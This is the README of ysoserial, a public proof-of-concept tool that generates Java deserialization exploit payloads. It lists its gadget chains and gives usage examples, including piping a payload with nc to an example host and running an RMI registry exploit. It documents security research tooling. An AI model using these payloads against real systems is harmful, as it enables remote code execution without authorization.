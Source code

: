 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
     Payload              Authors                                Dependencies
     -------              -------                                ------------
     AspectJWeaver        @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
     Atomikos             @pwntester, @sciccone                  transactions-osgi:4.0.6, jta:1.1
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Ceylon               @kai_ullrich                           ceylon.language:1.3.3
     Click1               @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure              @JackOfMostTrades                      clojure:1.8.0
     Clojure2             @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils2    @k4n5ha0                               commons-beanutils:1.9.2
     CommonsCollections1  @frohoff                               commons-collections:3.1
     CommonsCollections2  @frohoff                               commons-collections4:4.0
     CommonsCollections3  @frohoff                               commons-collections:3.1
     CommonsCollections4  @frohoff                               commons-collections4:4.0
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     CommonsCollections8  @navalorenzo                           commons-collections4:4.0
     CreateZeroFile       @JackOfMostTrades                      scala-library:2.12.6
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1              @frohoff                               groovy:2.3.9
     Hibernate1           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2
     Hibernate2           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient           @mbechler
     JRMPListener         @mbechler
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21              @frohoff
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2
     Jython2              @pwntester, @cschneider4711, @ykoster  jython-standalone:2.5.2
     Jython3              @steven_seeley                         jython-standalone:2.7.3
     Jython4              @JackOfMostTrades                      jython:2.7.2b2
     MozillaRhino1        @matthias_kaiser                       js:1.7R2
     MozillaRhino2        @_tint0                                js:1.7R2
     Myfaces1             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0
     Myfaces2             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0
     ROME                 @mbechler                              rome:1.0
     ROME2                @Firebasky                             rome:1.0
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     SpringJta            @zerothoughts, @sciccone               spring-tx:5.1.7.RELEASE, spring-context:5.1.7.RELEASE, jta:1.1
     Ssrf                 @JackOfMostTrades                      scala-library:2.12.6
     Struts2JasperReports @sciccone                              struts2-core:2.5.20, struts2-jasperreports-plugin:2.5.20
     URLDNS               @gebl
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
     WildFly              @hugow                                 wildfly-connector:30.0.1.Final
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
